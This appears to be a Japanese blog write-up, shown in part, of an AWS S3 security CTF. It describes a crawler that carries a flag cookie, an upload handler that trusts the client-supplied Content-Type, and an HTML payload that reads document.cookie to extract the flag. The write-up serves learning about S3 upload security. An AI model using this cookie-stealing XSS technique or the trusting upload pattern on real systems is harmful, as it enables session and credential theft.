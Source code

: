 ```yaml
---
title: '[wip] とある海豹とSecurity-JAWS #01 Writeup'
author: r74tech
categories:
  - wip
tags:
  - wip
  - ctf
  - writeup
math: false
mermaid: false
slug: 2024-09-21-azasecjaws01
image:
  path: /assets/img/og/2024-09-21-azasecjaws01.png
  show: false
---
```


# はじめに  
2024年9月21日、「とある海豹とSecurity-JAWS #01」というAWSのS3セキュリティに焦点を当てたCTFイベントに参加しました。このイベントでは、S3のファイルアップロード機能に潜む脆弱性を探ることがテーマで、特にContent-Typeヘッダの操作によるXSS脆弱性を発見していくというものでした。

イベントの主なテーマ:
- S3のファイルアップロード時におけるContent-Typeヘッダの制御
- 任意のファイル形式のアップロード可否の検証

本記事では、このCTFで解いた問題と、その過程で学んだポイントを紹介します。一部の問題は未解決なため全てではないですが、学びを共有しようと思います。

---

# Writeup  

## 構成概要  
今回のCTFで提供された構成は、以下の図に示すようなものでした。

![CTF構成](/assets/img/post/2024-09-21/ctf-structure.png)  

また、以下のようなターゲットページが用意されており、指定されたS3のURLを入力し、Cookieを付与した状態でそのURLにアクセスする仕組みです。

![ターゲットページ](/assets/img/post/2024-09-21/target-page.png)  

### 動作の概要  
1. ユーザは、悪意のあるHTMLファイルをアップロードします。
2. アップロードされたファイルはS3に保存されます。
3. アプリケーションがS3のURLを用いてアクセスを行い、特定のクッキー（フラグ）が付与された状態でターゲットのページにアクセスします。
4. クローラーがそのページのHTMLを取得し、結果をS3バケットに保存します。
5. S3バケットに保存されたHTMLは、iframeを使って最終的に表示されます。

---

## クローラーの実装  
クローラーは、指定されたURLにアクセスし、フラグが埋め込まれたクッキーを付与した後、そのページのHTMLを取得し、S3に保存します。

```ts
export const crawler = async (url: string) => {
  const browser = await launch({
    headless: true, // ヘッドレスブラウザモードで起動
    args: puppeteerArgs,
  });

  const page = await browser.newPage();
  page.setCookie({
    name: "flag",
    value: process.env.FLAG || "flag{dummy}", // フラグの値
    domain: process.env.DOMAIN || "example.com", // 対象ドメイン
  });
  
  await page.goto(url); // 指定URLへアクセス
  await new Promise((resolve) => setTimeout(resolve, 500)); // ページのロード待機
  
  const bodyHandle = await page.$("body");
  const html = await page.evaluate((body) => {
    if (!body) return "HTML is empty";
    return body.innerHTML;
  }, bodyHandle);

  const path = new URL(url).pathname;
  await uploadToS3(`delivery/${path.split("/").pop()}`, Buffer.from(html)); // S3にHTMLを保存
  await browser.close();
};
```
{: file='scenario1_crawler/crawler.ts'}  


## Introduction  
### Server Side Upload  

この問題は、S3のファイルアップロード機能を活用し、任意のファイルをアップロードする構成となっています。以下は、サーバーサイドでのファイルアップロードの実装です。

```ts
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,  // 最大ファイルサイズ: 100MB
      files: 1,  // 一度にアップロードできるファイル数: 1つ
    },
  });

  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });  // エラーレスポンス: ファイルがアップロードされていない場合
  }

  const filename = uuidv4();  // ランダムなファイル名を生成
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,  // バケット名
    Key: `upload/${filename}`,  // アップロード先のファイルパス
    Body: data.file,  // アップロードするファイル本体
    ContentLength: data.file.bytesRead,  // ファイルのサイズ
    ContentType: data.mimetype,  // ファイルのMIMEタイプ
  });

  await s3.send(command);  // S3にファイルをアップロード
  reply.send(`/upload/${filename}`);  // アップロードされたファイルのURLを返却
  return reply;
});
```
{: file='scenario1_application/app.ts'}

---

以下のようなHTMLファイルをアップロードすることで、flagを取得できます。

```html
<html lang="en">
  <body>
    <p id="flag-container">Flag: Loading...</p>
    <script>
      // クッキーから "flag" を抽出し、要素に表示する
      document.getElementById('flag-container').textContent =
        document.cookie.split(';').find(c => c.includes('flag')).split('=')[1];
    </script>
  </body>
</html>
```
{: file='scenario1_application/flag.html'}


### Pre Signed Upload


